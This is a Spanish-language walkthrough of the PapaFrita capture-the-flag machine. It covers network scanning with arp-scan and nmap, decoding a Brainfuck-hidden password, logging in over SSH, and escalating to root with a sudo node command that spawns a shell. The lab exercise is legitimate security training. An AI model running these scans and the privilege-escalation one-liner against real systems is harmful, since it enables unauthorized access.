

# PapaFrita

Maquinas que vamos a utilizar Kali Linux y PapaFrita  [https://thehackerslabs.com/papafrita/](https://thehackerslabs.com/papafrita/)

```bash
sudo arp-scan -I eth0 --localnet
```


```bash
nmap -p- -sS -sV -sC --open -min-rate=2000 -n -vvv -Pn 10.0.3.30
```


- Miramos lo que corre dentro del puerto 80 en el navegador web
    
    
    
    A simple vista no hay nada interesante pero vamos a revisar el código fuente.
    
    `CTRL+Z`
    
    
    
    Nos encontramos estas curiosas lineas que parecen estar escrito en **Brainfuck** por tanto vamos a intentar descodificar el codigo .
    
- Voy a usar la web [https://www.dcode.fr/](./imagenes/https://www.dcode.fr/) para intentar desentrañar el código.
    
    
    
    `abuelacalientalasopa` Parece una contraseña
    

- Probando distintos nombres de usuario nos vamos por la opción más lógica. Y elegimos de usuario **abuela para el SSH.**
    
    ```bash
    ssh [abuela@10.0.3.30](./imagenes/mailto:abuela@10.0.3.30)
    ```
    
    
    
- Listamos privilegios para ver los permisos **sudo -l**
    
    `sudo -l`
    
    
    
- Usamos [https://gtfobins.github.io/](./imagenes/https://gtfobins.github.io/)
    
    
    

`sudo /usr/bin/node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'`

`whoami`


